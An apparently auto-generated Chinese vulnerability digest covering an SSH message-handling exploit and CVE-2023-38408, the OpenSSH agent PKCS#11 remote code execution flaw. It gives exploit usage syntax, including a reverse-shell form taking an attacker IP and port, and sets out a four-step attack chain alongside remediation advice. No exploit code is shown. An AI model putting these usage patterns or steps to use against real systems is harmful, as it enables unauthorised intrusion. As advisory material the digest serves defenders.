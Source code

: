 #### 🛠️ 技术细节

> 该漏洞针对SSH服务，通过构造恶意的SSH消息实现命令执行或反向Shell。

> 利用方法：./exploit <target-ip> <target-port> "<command>"  或  ./exploit <target-ip> <target-port> <attacker-ip> <attacker-port>

> 修复方案：更新到修复该漏洞的SSH版本，或者检查SSH配置，禁用不安全的选项。仔细检查SSH协议相关的消息处理逻辑，防止恶意构造的消息。

> 漏洞原理：Exploit 跳过了 SSH 的 USERAUTH 阶段，直接利用 SSH 协议中的漏洞。具体利用细节有待进一步分析 Exploit 源代码。


#### 🎯 受影响组件

```
• SSH服务
```

#### ⚡ 价值评估

<details><summary>展开查看详细评估</summary></details>

---

### CVE-2023-38408 - OpenSSH agent RCE漏洞，附PoC

#### 📌 漏洞信息

| 属性 | 详情 |
|------|------|
| CVE编号 | CVE-2023-38408 |
| 风险等级 | `CRITICAL` |
| 利用状态 | `漏洞利用可用` |
| 发布时间 | 2025-04-19 00:00:00 |
| 最后更新 | 2025-04-19 20:38:05 |

#### 📦 相关仓库

- [CVE-2023-38408](https://github.com/TX-One/CVE-2023-38408)

#### 💡 分析概述

该仓库提供了CVE-2023-38408的SSH agent远程代码执行漏洞的扫描器和PoC。 仓库包含Python编写的扫描器，可以检测OpenSSH版本，判断是否易受攻击。 PoC 演示了在agent转发功能开启的情况下，攻击者如何通过构造恶意代码，利用PKCS#11功能在受害者机器上执行任意代码。 具体步骤包括： 1. 通过SSH连接到服务器。 2. 攻击者创建shellcode，通过SSH发送到目标服务器。 3. shellcode利用OpenSSH agent的PKCS#11漏洞，劫持受害者用户的SSH访问。 4. 攻击者通过受害者用户权限执行命令。  此次更新主要完善了README.md文件，增加了PoC的详细步骤和截图，以及Python扫描器的代码。 PoC代码质量较高，测试用例完善，并且提供了清晰的利用方法。

#### 🔍 关键发现

| 序号 | 发现内容 |
|------|----------|
| 1 | OpenSSH SSH-agent 远程代码执行漏洞 |
| 2 | 需要开启SSH agent转发功能 |
| 3 | 提供了可用的PoC，演示了完整的利用链 |
| 4 | 影响OpenSSH 9.3及以下版本 |
